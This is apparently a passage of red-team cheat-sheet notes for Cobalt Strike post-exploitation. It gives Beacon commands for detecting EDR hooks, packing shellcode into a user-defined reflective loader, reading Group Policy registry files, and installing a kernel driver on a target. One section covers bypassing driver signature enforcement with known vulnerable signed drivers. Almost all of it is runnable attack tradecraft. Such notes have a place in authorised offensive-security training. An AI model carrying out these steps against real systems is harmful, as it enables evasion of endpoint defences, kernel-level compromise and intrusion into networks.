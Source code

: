 `shutdown /r /t 0`

`C:\Tools\injdrv\injdrv.exe -i`
Registers two kernel callbacks:
- PsSetCreateProcessNotifyRoutineEx ⇒ process create/destroy
- PsSetLoadImageNotifeRoutine ⇒ image/DLL load

**Detect Hooks**
`execute-assembly C:\Tools\OffensiveCSharp\HookDetector\bin\Release\HookDetector.exe`

**View Instructions** (WinDbg)
File → Attach to process
`u ntdll!NtOpenProcess`
#### User-Defined Reflective Loader
1. unload all aggressor scripts that influence payload generation
2. create a new HTTP listener
3. generate shellcode without guardrails or syscalls
4. pack the shellcode into the UDRL source code
`cd C:\Tools\cobaltstrike\arsenal-kit\kits\udrl-vs`
`py.exe .\udrl.py xxd C:\Payloads\http_x64.xprocess.bin .\library\DebugDLL.x64.h`

For release, check the cna files in in the bin folder
`cd C:\Tools\cobaltstrike\arsenal-kit\kits\udrl-vs\bin\default-loader`
## Misc
#### Read GPO
`powerpick Get-DomainGPO -Properties DisplayName,gpcfilesyspath | sort -Property DisplayName`

`gc "[gpcfilesyspath]\Machine\Registry.pol"`
or
`download [gpcfilesyspath]\Machine\Registry.pol`
`Install-Module -Name GPRegistryPolicyParser`
`Parse-PolFile -Path Registry.pol`
#### Load Kernel Driver
##### Without DSE Bypass
if kernel driver is not legitimately signed, see [[#With DSE Bypass]]

Upload PPL Driver
`cd C:\Windows\System32\drivers`
`upload C:\Tools\RedOctober\RedOctober.sys`
`run sc create redoct type= kernel binPath= C:\Windows\System32\drivers\RedOctober.sys`

Start PPL Driver
`run sc start redoct`
##### With DSE Bypass
required when kernel driver is not legitimately signed

find a known vulnerable legitimately signed driver: [LOLDrivers](https://www.loldrivers.io)
replace gdrv.sys with vulnerable driver as necessary

Upload PPL Driver
`cd C:\Windows\System32\drivers`
`upload C:\Tools\RedOctober\RedOctober.sys`
`run sc create redoct type= kernel binPath= C:\Windows\System32\drivers\RedOctober.sys`

